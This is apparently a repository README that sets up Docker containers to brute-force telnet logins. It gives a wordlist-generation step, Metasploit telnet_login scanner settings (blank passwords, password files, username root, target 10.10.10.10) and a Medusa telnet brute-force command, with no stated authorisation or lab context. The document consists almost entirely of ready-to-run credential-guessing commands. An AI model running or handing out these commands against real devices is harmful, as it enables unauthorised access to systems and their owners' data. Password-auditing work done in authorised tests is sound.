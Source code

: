 # passwords

### generate all char combinations
Modify `password-generator.py` and run `./password-generator.py`


### Setup
```docker-compose build```

### Metasploit
 * start container session with `docker-compose run metasploit bash`.
 * start session with `msfconsole`
 * load telnet module `use auxiliary/scanner/telnet/telnet_login`
 * see options: `show options`

```
set BLANK_PASSWORDS true
set PASS_FILE /tmp/config/az/1-5.txt
set USERNAME root
set RHOSTS 10.10.10.10
run
```

```
set BLANK_PASSWORDS true
set USERPASS_FILE /tmp/config/telnet.metasploit.txt
set USERNAME root
set RHOSTS 10.10.10.10
run
```


### Medusa
https://hackertarget.com/brute-forcing-passwords-with-ncrack-hydra-and-medusa/
  * Start container session with `docker-compose run medusa bash`.

```
medusa -u root -P /tmp/config/telnet.medusa.txt -h 10.10.10.10 -M telnet
```
